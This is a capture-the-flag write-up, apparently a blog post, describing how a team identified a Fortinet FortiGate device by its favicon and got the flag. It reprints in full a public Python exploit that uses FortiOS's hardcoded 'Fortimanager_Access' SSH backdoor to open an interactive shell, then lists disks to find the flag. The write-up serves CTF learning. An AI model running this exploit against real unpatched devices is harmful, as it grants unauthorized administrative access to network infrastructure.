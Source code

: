 ```yaml
---
title: Fortinet Flag
description: Fortinet Fortigate Flag
tags:
  - python
categories:
  - SOHOplessly Broken
draft: false  # change to false when time to publish
---
```


Finding the exploit, we did some google-fu and learned a bit about some of the exploits for the device, but we didn't know which device on the network it was.

We connected to one of the devices and figured out that the favicon of the admin page was Fortinet's logo. From there we started to run some of the exploits. The one that worked for us was [https://www.exploit-db.com/exploits/43386](https://www.exploit-db.com/exploits/43386)


## Exploit

```python
#!/usr/bin/env python

# SSH Backdoor for FortiGate OS Version 4.x up to 5.0.7
# Usage: ./fgt_ssh_backdoor.py <target-ip>

import socket
import select
import sys
import paramiko
from paramiko.py3compat import u
import base64
import hashlib
import termios
import tty

def custom_handler(title, instructions, prompt_list):
    n = prompt_list[0][0]
    m = hashlib.sha1()
    m.update('\x00' * 12)
    m.update(n + 'FGTAbc11*xy+Qqz27')
    m.update('\xA3\x88\xBA\x2E\x42\x4C\xB0\x4A\x53\x79\x30\xC1\x31\x07\xCC\x3F\xA1\x32\x90\x29\xA9\x81\x5B\x70')
    h = 'AK1' + base64.b64encode('\x00' * 12 + m.digest())
    return [h]


def main():
    if len(sys.argv) < 2:
        print 'Usage: ' + sys.argv[0] + ' <target-ip>'
        exit(-1)

    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        client.connect(sys.argv[1], username='', allow_agent=False, look_for_keys=False)
    except paramiko.ssh_exception.SSHException:
        pass

    trans = client.get_transport()
    try:
        trans.auth_password(username='Fortimanager_Access', password='', event=None, fallback=True)
    except paramiko.ssh_exception.AuthenticationException:
        pass

    trans.auth_interactive(username='Fortimanager_Access', handler=custom_handler)
    chan = client.invoke_shell()

    oldtty = termios.tcgetattr(sys.stdin)
    try:
        tty.setraw(sys.stdin.fileno())
        tty.setcbreak(sys.stdin.fileno())
        chan.settimeout(0.0)

        while True:
            r, w, e = select.select([chan, sys.stdin], [], [])
            if chan in r:
                try:
                    x = u(chan.recv(1024))
                    if len(x) == 0:
                        sys.stdout.write('\r\n*** EOF\r\n')
                        break
                    sys.stdout.write(x)
                    sys.stdout.flush()
                except socket.timeout:
                    pass
            if sys.stdin in r:
                x = sys.stdin.read(1)
                if len(x) == 0:
                    break
                chan.send(x)

    finally:
        termios.tcsetattr(sys.stdin, termios.TCSADRAIN, oldtty)


if __name__ == '__main__':
    main()
```

## Getting the flag

After we gained access, we listed the disks to get the flag, which was the md5 of the partion label.

```sh
execute disk list
```
